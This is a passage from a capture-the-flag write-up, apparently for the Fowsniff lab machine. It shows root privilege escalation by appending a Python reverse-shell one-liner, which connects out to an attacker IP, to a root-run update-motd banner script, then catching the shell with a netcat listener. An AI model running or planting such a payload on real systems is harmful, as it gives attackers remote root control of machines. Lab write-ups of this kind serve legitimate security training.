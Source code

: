 ```
.ohdddddddddddddho:                  Delivering Solutions\n\n"
```

Ah! It's just the banner...

But we could run this as ```root```, since all the scripts that refer to the banner are run as ```root```:
```
baksteen@fowsniff:~$ ls /etc/update-motd.d/ -l
total 16
-rwxr-xr-x 1 root root 1248 Mar 11  2018 00-header
-rwxr-xr-x 1 root root 1473 Mar  9  2018 10-help-text
-rwxr-xr-x 1 root root  299 Jul 22  2016 91-release-upgrade
-rwxr-xr-x 1 root root  604 Nov  5  2017 99-esm
```

Let's add our python reverse shell into the previous script.

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((10.9.136.138, 1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Root flag ##

We will have to reconnect through ```SSH``` and put a ```netcat``` listener on port ```1234``` to wait for the reverse shell to pop.

In one terminal I am going to reconnect:

```
$ ssh baksteen@10.10.253.109
```

And in my listener's terminal I will receive a shell as root!

```
$ nc -nlvp 1234          
listening on [any] 1234 ...
connect to [10.9.136.138] from (UNKNOWN) [10.10.253.109] 35808
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/flag.txt
```

